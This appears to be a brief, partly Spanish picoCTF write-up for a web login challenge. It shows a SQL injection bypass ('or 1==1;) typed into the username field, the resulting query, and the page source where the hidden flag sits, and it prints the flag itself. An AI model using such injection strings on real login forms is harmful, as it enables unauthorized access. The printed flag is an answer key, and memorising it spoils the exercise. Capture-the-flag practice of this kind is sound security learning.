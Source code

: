 #### Description

Can you login to this website?Try to login [here](http://saturn.picoctf.net:61274/).

## Solución 

````
username: 'or 1==1;
password: pasword
SQL query: SELECT * FROM users WHERE name=''or 1==1;' AND password='pasword'

# Logged in! But can you see the flag, it is in plainsight.

Ir al codigo fuente<-----------------------------------------

|   |
|---|
|<pre>username: &#039;or 1==1;|
||password: pasword|
||SQL query: SELECT * FROM users WHERE name=&#039;&#039;or 1==1;&#039; AND password=&#039;pasword&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>|

picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

```